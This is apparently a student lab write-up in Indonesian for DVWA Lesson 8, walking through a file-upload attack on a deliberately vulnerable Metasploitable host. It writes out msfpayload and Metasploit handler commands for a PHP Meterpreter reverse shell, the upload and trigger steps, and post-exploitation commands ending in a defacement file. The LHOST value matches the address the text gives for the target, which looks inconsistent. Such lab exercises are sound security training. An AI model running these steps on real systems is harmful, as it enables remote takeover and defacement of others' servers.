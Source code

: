 # DVWA | Lesson 8
## Konfigurasi

###{ Upload PHP Backdoor Payload }

pada lesson 8, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

![alt text](./backtrack.png)
![alt text](./metasploit.png)

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`


## Skenario
![alt text](./1.png)
- start metasploit dan backtrack yang sudah dikonfigurasi

- log in backtrack dan metasploitable
- membuat direktori backdoor, membuat msfpayload

    `mkdir -p /root/backdoor`
    `cd /root/backdoor`
    `msfpayload php/meterpreter/reverse_tcp LHOST=10.151.34.170 ``LPORT=4444 R > PHONE_HOME.php`
    `ls -l PHONE_HOME.php`

![alt text](./2.png)
![alt text](./3.png)
 - menghapus tanda pagar yang ada di phone_home.php
 - keluar menggunakan command :
    `:q!' -> enter
![alt text](./4.png)

- menjalankan command : 
- LHOST disesuaikan dengan IP metasploit

    `use exploit/multi/handler`

    `set PAYLOAD php/meterpreter/reverse_tcp`

    `set LHOST 10.151.34.170`

    `set LPORT 4444`

    `exploit`



![alt text](./6.png)


- membuka firefox
- buka 10.151.34.170/dvwa/security.php
- login
- set DVWA security LOW

![alt text](./7.png)

- buka 10.151.34.170/dvwa/vulnerabilities/upload
![alt text](./9.png)
- browse php yang ingin diupload
![alt text](./8.png)
- klik upload
- file berhasil diupload
![alt text](./9.png)

- buka 10.151.34.170/dvwa/hackable/uploads
- klik file PHONE_HOME.php

![alt text](./10.png)

- buka command kembali 
- kali ini koneksi telah stabil

![alt text](./12.png)

- melakukan shell
- ketik :
    shell
    uptime
    pwd
    whoami
    w
    echo "hacked by anindita" > hacked.html
    ls -l
![alt text](./13.png)
![alt text](./14.png)





## Hasil
kita berhasil menambahkan file baru ke DVWA
![alt text](./15.png)